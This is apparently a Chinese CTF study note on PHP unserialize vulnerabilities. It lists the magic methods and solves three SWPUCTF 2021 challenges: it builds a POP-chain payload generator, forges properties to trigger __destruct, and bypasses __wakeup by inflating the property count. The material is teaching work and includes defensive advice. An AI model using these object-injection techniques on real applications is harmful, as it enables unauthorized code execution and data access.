




# 反序列化
## 序列化就是将一个对象转换成字符串，反序列化则是将字符串重新恢复成对象
- PHP序列化函数：serialize()
- PHP反序列化函数：unserialize()
## 反序列化中常见的魔术方法
```
__wakeup() //执行unserialize()时，先会调用这个函数
__sleep() //执行serialize()时，先会调用这个函数
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据或者不存在这个键都会调用此方法
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当尝试将对象调用为函数时触发
```
## [SWPUCTF 2021 新生赛]pop
### 题目源码
```
<?php

error_reporting(0);
show_source("index.php");

class w44m{

    private $admin = 'aaa';
    protected $passwd = '123456';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$w00m = $_GET['w00m'];
unserialize($w00m);

?> 
```
### 解题思路
- 通过上面的分析我们知道，flag.php被包含在Getflag这个方法中，我们需要使用某种手段来调用它，而w33m类里面有__toString()方法，当对象被当作字符串时执行。因此我们可以通过设置w44m的两个对象admin和passwd分别为w44m和08067，然后在w22m中赋值$w00m为w33m,并通过w22m调用w33m，分别为w33m的两个对象赋值，$w00m->w44m,$w22m->Getflag,，最后对w22m进行序列化和url加密,生成攻击payload的php代码如下：
```php
<?php
// 创建w44m对象并设置所需属性值
class w44m{
    private $admin = 'w44m';       // 满足Getflag()条件的admin值
    protected $passwd = '08067';   // 满足Getflag()条件的passwd值
}

// 创建w33m对象，用于调用w44m的Getflag()方法
class w33m{
    public $w00m;      // 将被设置为w44m对象
    public $w22m = 'Getflag';  // 要调用的方法名
}

// 创建w22m对象，用于触发w33m的__toString()方法
class w22m{
    public $w00m;      // 将被设置为w33m对象
}

// 建立对象之间的关系
$w44m = new w44m();   // 创建w44m对象
$w33m = new w33m();   // 创建w33m对象
$w22m = new w22m();   // 创建w22m对象

// 设置w33m的属性，指向w44m对象和要调用的方法
$w33m->w00m = $w44m;

// 设置w22m的属性，指向w33m对象
$w22m->w00m = $w33m;

// 序列化w22m对象，这是我们的基础payload
$payload = serialize($w22m);

// 对payload进行URL编码，以便通过GET参数传递
echo urlencode($payload);
?>
```
- 运行之后生成payload传入给w00m参数，即可触发Getflag()方法，输出flag。其调用流程为：
```
反序列化完成 → PHP开始垃圾回收 → 销毁w22m对象 → 
触发w22m::__destruct() → 输出w33m对象 → 
PHP尝试将w33m对象转为字符串 → 触发w33m::__toString() → 
执行$w00m->{$this->w22m}() → 等价于 $w44m->Getflag() → 
检查admin和passwd → 满足条件 → 输出flag
```

- 疑问：代码内容

ai：好的，我来详细解释一下`$w00m->{$this->w22m}()`这行代码的含义和执行过程。这是理解整个漏洞利用链的关键部分。
### 一、代码含义拆解

`$w00m->{$this->w22m}()` 是PHP中的**变量函数调用**语法，它等价于：

1. 先获取 `$this->w22m` 的值（这是一个字符串，表示方法名）
2. 然后调用 `$w00m` 对象中名为该字符串的方法

举个例子帮助理解：
```php
class Calculator {
    public function add($a, $b) { return $a + $b; }
    public function sub($a, $b) { return $a - $b; }
}

$calc = new Calculator();
$method = "add";  // 方法名存储在变量中

// 以下两种写法是等价的：
echo $calc->$method(1, 2);      // 输出 3
echo $calc->add(1, 2);          // 输出 3
```


### 二、在题目中的具体应用

在题目中，`w33m` 类的 `__toString()` 方法定义如下：
```php
public function __toString(){
    $this->w00m->{$this->w22m}();
    return 0;
}
```

当这个方法被触发时：
1. `$this->w00m` 是我们之前设置的 `w44m` 对象
2. `$this->w22m` 是我们设置的字符串 `"Getflag"`
3. 因此，实际执行的代码是：`$w44m->Getflag()`


### 三、完整调用链回顾

让我们结合整个利用链，梳理一下执行流程：

1. **构造对象链**：
   ```php
   $w44m = new w44m();           // admin="w44m", passwd="08067"
   $w33m = new w33m();
   $w33m->w00m = $w44m;          // w33m的w00m属性指向w44m
   $w33m->w22m = "Getflag";      // w33m的w22m属性存储方法名
   
   $w22m = new w22m();
   $w22m->w00m = $w33m;          // w22m的w00m属性指向w33m
   ```

2. **反序列化触发漏洞**：
   ```php
   unserialize($w00m);  // 传入我们构造的序列化字符串
   ```

3. **PHP自动调用流程**：
   ```
   反序列化完成 → PHP开始垃圾回收 → 销毁w22m对象 → 
   触发w22m::__destruct() → 输出w33m对象 → 
   PHP尝试将w33m对象转为字符串 → 触发w33m::__toString() → 
   执行 $w00m->{$this->w22m}() → 等价于 $w44m->Getflag() → 
   检查admin和passwd → 满足条件 → 输出flag
   ```


### 四、为什么要用这种间接调用方式？

你可能会问：为什么不直接在 `__toString()` 方法里写 `$this->w00m->Getflag()`？

原因是**通用性**。通过变量函数调用，`w33m` 类可以设计成一个**通用的方法调用器**，它不关心具体要调用哪个方法，只负责执行 `$w00m` 对象中的 `$w22m` 方法。这样，这个类就可以用于触发任何对象的任何方法，大大增强了漏洞利用的灵活性。


### 五、安全启示

这种变量函数调用在PHP中很常见，但也带来了安全风险。如果一个类的方法可以被外部控制（像本题中通过反序列化），攻击者就可能利用它执行任意代码。

**防御建议**：
1. 永远不要反序列化不可信的数据
2. 在类设计中，避免在魔术方法里执行敏感操作
3. 对用户可控的输入进行严格过滤
4. 使用 `__wakeup()` 魔术方法对反序列化数据进行验证

## [SWPUCTF 2021 新生赛]ez_unserialize
### 题目源码
```
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?> 
```
### 解题思路
- 从源码中可以看出,存在一个wllm的类，其中看到魔术方法__destruct()，可以看到在类被销毁时，判断了admin和passwd是否为admin和ctf，如果是则包含flag.php文件并输出flag，否则输出admin和passwd和Just a bit more!。那么将源码复制并构造生成payload的新代码，注释掉其中的函数内容，将“admin”和“ctf”赋值到变量中，并创建新对象，将其序列化，然后将序列化后的字符串进行url编码，传入w00m参数，即可触发__destruct()方法，输出flag。



## [SWPUCTF 2021 新生赛]no_wakeup
### 题目源码
```
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```
### 解题思路
- 在程序调用反序列化方法时，会自动执行__weakup()函数，而显然weakup方法会加密上传的序列化参数中的passwd，而sha1是不可逆加密算法，目前也没有合适的sha1碰撞的方式，故考虑到绕过__weakup()函数；
- php的特性，当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup(); 因而先构造序列化payload，然后修改属性数参数与实际不匹配，即可绕过。


### 总结：
- 当序列化字符串中对象属性个数大于实际属性个数时，__wakeup()会被跳过，伪造属性个数（如 2 改为 3），触发__wakeup()绕过漏洞。


### **序列化字符串解析**

```
O:6:"HaHaHa":2:{s:5:"admin";s:4:"user";s:6:"passwd";s:6:"123456";}
```

**各部分含义**：
1. `O:6:"HaHaHa"`  
   - `O`：表示这是一个对象（Object）  
   - `6`：类名的长度（"HaHaHa"长度为6）  
   - `"HaHaHa"`：类名  

2. `:2:`  
   - 对象包含**2个属性**  

3. `{s:5:"admin";s:4:"user"; ... }`  
   - **第一个属性**：  
     - `s:5:"admin"`：属性名是字符串（s），长度5，值为"admin"  
     - `s:4:"user"`：属性值是字符串（s），长度4，值为"user"  
   - **第二个属性**：  
     - `s:6:"passwd"`：属性名是字符串（s），长度6，值为"passwd"  
     - `s:6:"123456"`：属性值是字符串（s），长度6，值为"123456"  


### **对应PHP对象**

这个序列化字符串对应以下PHP对象：
```php
class HaHaHa {
    public $admin = "user";
    public $passwd = "123456";
}
```